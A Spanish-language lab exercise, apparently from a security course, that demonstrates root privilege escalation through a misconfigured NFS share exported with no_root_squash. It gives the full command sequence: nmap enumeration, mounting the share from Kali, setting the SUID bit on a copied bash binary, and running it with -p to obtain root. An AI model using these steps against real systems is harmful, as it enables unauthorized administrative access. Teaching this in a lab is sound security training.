




# Escalado de privilegio explotando ***no_root_squash***.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***ubu_srv_01***

***REQUIERE HABER REALIZADO 4. Laboratorio 04-D: Enumeración NFS. Ejercicio - Configuración de un share de NFS***.


## Ejercicio 1: Convertirse en root por una NFS mal configurada.

Como debemos tener claro, un uso de NFS no seguro puede conducir a situaciones no deseadas. Después de aprender a enumerar las shares NFS (tal y como se vió en el ***lab-04-D***) se determina que existe una share que tiene habilitada la configuración ***no_root_squash***. Este parámetro permite al usuario ***root*** de la máquina cliente acceder al share. Como ya sabemos, trabajar con un usuario ***root*** es una mala idea.

En la máquina ***Kali*** ejecutamos el siguiente comando.
```
nmap -sV -p 111 --script=nfs-showmount 192.168.20.60
```

Cuya salida demuestra que se está compartiendo el directorio ***/datos*** en dicha máquina. 

Esta tecnica se emplea cuando se necesita escalar privilegios, es decir, el actor de la amenaza ya posee una credencial de usuario en la máquina víctima. La credencial puede haber sido capturada en un ataque previo o, se trata de un ***insider***. En cualquier caso se desea ser ***root*** en la máquina NFS.

Para hacer una simulación real, vamos a crear un usuario nuevo, sin permisos de ***root***, en la máquina ***ubu_srv_01***, por medio del siguiente comando.
```
sudo useradd luke
``` 

Y por contraseña ponemos ***UsaLaLFuerza***, por medio de este comando.
```
sudo passwd luke
```

Iniciamos sesión con el nuevo usuario. Primero cerramos la sesión del usuario ***antonio***.
```
logout
```

E iniciamos sesión con ***luke***/***UsaLaFuerza***. Compromamos quien somos.
```
whoami
```

La salida mostrará que es un usuario convencional (***luke***) que no es ***root*** en esa máquina.

Ahora, el usuario ***luke*** va a hacer algo que parece inocuo. Copia el archivo de la shell a la carpeta ***/datos***, para la cual tiene permisos de escritura.
```
cp /bin/bash /datos
```

Si listamos la carpeta veremos que el propietario es ***luke***
```
ls -l /datos
```




Ahora en la maquina ***Kali***.

El siguiente paso es intentar montar ese share.

Creamos una carpeta de trabajo temporal.
```
mkdir -p /tmp/share
```

Montamos el share.
```
sudo mount -t nfs 192.168.20.60:/datos /tmp/share
```

Comprobamos que se ha montado el share.
```
df -k
```

El resultado debe ser similar al mostrado en la siguiente imagen.



A través del punto de montaje, podemos ver el archivo ***bash*** que el usuario ***luke*** copió.
```
cd /tmp/share

ls -l
```

Para que el exploit funcione, debemos asignar el permiso ***SUID*** al archivo copiado (***bash***). Al haber montado el share con la opción ***no_root_squash*** habilitata, nos da acceso de administrador a los archivos que allí se encuentren.

Vamos a cambiar el ***propietario*** y asignar el permiso ***SUID*** a ***bash***.
```
sudo chown root.root bash
```

```
sudo chmod +s bash

ls -l bash
```

En la imagen podemos ver el resultado.



Un archivo con el permiso ***SUID*** (bit s), puede ser ejecutado por cualquier usuario, pero siempre se ejecuta con el permiso del propietario, que es ***root***.

En la máquina ***ubu_srv_01***, donde hemos iniciado la sesión con el usuario ***luke***, ejecutamos el comando.
(Nota: ***-p*** ejecuta la shell en modo privilegiado, de no ponerlo, SUID no tendrá efecto.)
```
/datos/bash -p
```

Ahora solo queda preguntar al sistema quién somos.
```
whoami
```

Hemos escalado al ***root*** sin necesidad de conocer la contraseña.



Ya solo queda desmontar el share. En la máquina ***Kali***.
```
cd ~

sudo umount /tmp/share
```

***FIN DEL LABORATORIO***